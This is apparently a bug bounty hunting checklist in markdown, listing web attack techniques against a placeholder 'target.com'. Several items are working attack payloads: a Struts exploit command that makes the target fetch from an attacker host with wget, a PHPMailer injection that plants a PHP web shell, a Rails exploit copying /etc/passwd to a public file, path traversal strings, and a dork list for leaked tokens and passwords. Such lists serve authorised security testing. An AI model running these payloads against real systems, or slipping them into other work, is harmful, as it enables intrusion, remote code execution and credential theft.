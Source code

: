 # Smart Hunting
## Bugs
- [ ] Add header in the proxy > Options (`X-Forwarded-Host: target.com`) - browse the program and then later click burp > search and try to find your `X-Forwarded-Host` value for web cache deception
- [ ] HTTP Request Smuggling
- [ ] Apply on .xhtml
- [ ] `Python struts-pwn.py -u http://target.com/orders.xhtml -c "wget http://ip:1337/test" --exploit`
- [ ] Test for Electronic Code Book (AAAAAAA aaaaaa BBBBB)
- [ ] `CVE-2016-10033`: PHPMailer RCE
email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"@127.0.0.1
subject: <?php system($_GET['c']);?>
- [ ] Change all request to `TRACE` method to disclose or access info
- [ ] `blc http://target.com -ro` (check for broken links)
- [ ] `targetname.atlassian.net`
- [ ] `jira.target.com`
- [ ] Vhost testing
- [ ] Test for bukets
- [ ] Check Github & dork list
(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,buket,GITHUB_TOKEN)
- [ ] `gau target.com`
- [ ] `waybackurls target.com`
- [ ] Accessing misconfigured data of an org: `https://storage.googleapis.com/<org-name>`
- [ ] Unauthorized access to org's google groups: `https://groups.google.com/a/<domain-name>`
- [ ] If running ruby on rails then: Accept: `../../../../../../../../etc/passwd{{`
- [ ] `CVE-2013-0156`: Rails Object Injection: ruby rails_rce.rb http://target.com 'cp /etc/passwd public/me.txt'
(https://gist.githubusercontent.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
- [ ] `CVE-2019-11043`: Hint: PHP based website on NGINX phuip-fpizdam http://target.com/anyphpfile.php
- [ ] Check for CRLF Injection
- [ ] Bypass Open-Redirection protection
- [ ] Keyfinder
- [ ] Check email verification `admin@target.com`
- [ ] `target.com/home/....4....json` (Will disclose all the content of the home dir + sensitive info)
- [ ] `CVE-2019-19781`: Citrix NetScaler Directory Traversal: `curl -vk -path-as-is https://$TARGET/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "VULNERABLE: $TARGET" || echo "MITIGATED: $TARGET"`
### Blind XSS
- [ ] Blind XSS Payload in `User-Agent` header
- [ ] BXSS payload while logging (Enter the BXSS payload in forget pass, login, signup to generate errors)
- [ ] Use BXSS payload as your password
- [ ] etc ...
